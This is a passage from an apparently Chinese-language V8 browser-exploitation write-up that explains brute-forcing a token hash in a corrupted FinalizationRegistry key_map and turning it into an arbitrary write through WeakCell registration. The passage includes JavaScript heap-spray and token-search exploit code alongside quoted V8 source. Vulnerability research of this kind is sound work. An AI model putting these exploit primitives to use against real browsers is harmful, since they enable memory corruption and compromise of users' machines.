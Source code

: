 如果我们的喷射对象在某个调用之后被破坏，则意味着该令牌的哈希值已成功匹配和使用，这证实了它是我们损坏的有效哈希值key_map。  
  
sprayIsCorrupted()现在我们只需要识别它是哪个令牌。一个方案是在每次调用后都运行unregister()，但成本很高。相反，将暴力破解过程分为两个步骤会更高效：  
1. 首先，找出有效的哈希值是否存在（如上）。  
  
1. 然后，检查受影响的对象：  
  
```
// Search which object have this hash// Unregister each token with the same hash until we corrupt p.spraylet valid_token_index = -1;for (let token_index = 0; token_index < tokens_with_hash.length; token_index++) {for (let i = 0; i < p.spray.length; i++) {    p.spray[i] = uint64ToFloat((BigInt(valid_hash) << 1n) | (0x11n << 32n));  }  p.registry.unregister(tokens_with_hash[token_index]);  const corrupted = sprayIsCorrupted(valid_hash);if (corrupted) {    print(`The object at index ${token_index} has the hash 0x${valid_hash.toString(16)}`);    valid_token_index = token_index;    break;  }}
```  
  
  
瞧——我们现在有一个已知的、有效的哈希值与特定的对象绑定在一起：  
  
```
p.token_hash = valid_hash;p.token = tokens_with_hash[valid_token_index];
```  
  
  
不受控制的任意写入  
  
当你调用register()FinalizationRegistry 时，V8 会在内部调用RegisterWeakCellWithUnregisterToken()：  
  
```
// src/objects/js-weak-refs-inl.hvoid JSFinalizationRegistry::RegisterWeakCellWithUnregisterToken(/*...*/) {//...  uint32_t key =      Object::GetOrCreateHash(weak_cell->unregister_token(), isolate).value();  InternalIndex entry = key_map->FindEntry(isolate, key);if (entry.is_found()) {    Tagged<Object> value = key_map->ValueAt(entry);    Tagged<WeakCell> existing_weak_cell = Cast<WeakCell>(value);    existing_weak_cell->set_key_list_prev(*weak_cell);    weak_cell->set_key_list_next(existing_weak_cell);  }//...}// src/objects/js-weak-refs.tqextern classWeakCellextendsHeapObject{  finalization_registry: Undefined|JSFinalizationRegistry;  target: Undefined|JSReceiver|Symbol;  unregister_token: Undefined|JSReceiver|Symbol;  holdings: JSAny;  prev: Undefined|WeakCell;  next: Undefined|WeakCell;  key_list_prev: Undefined|WeakCell;  key_list_next: Undefined|WeakCell;}
```  
  
  
unregister_token因为我们知道哈希值以及它所绑定的确切对象，所以我们可以entry.is_found()在注册过程中确保它是正确的。这使我们能够命中将指针写入现有 的代码路径WeakCell。  
  
诀窍在于：我们可以完全控制 的地址existing_weak_cell，V8 会将其视为与我们伪造的条目关联的值。但是，我们无法控制写入的值。该值是一个新分配的WeakCell，一个真实有效的 V8 对象。  
  
```
for (let i = 0; i < p.spray.length; i++) {  p.spray[i] = uint64ToFloat((BigInt(p.token_hash) << 1n) | (BigInt(addr) << 32n));}p.registry.register({}, undefined, p.token);
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadW4c5qzY80wNzNYbcibsDERSgDHXtTLdRpywfvriaIkX4BN55qXLvINgyXnYbib5UWicibK9p7CZ8icMwg/640?wx_fmt=png&from=appmsg "")  
  
因此，当register()被调用时，V8 将在以下位置执行写入：  
  
```
existing_weak_cell + offsetof(key_list_prev)
```  
  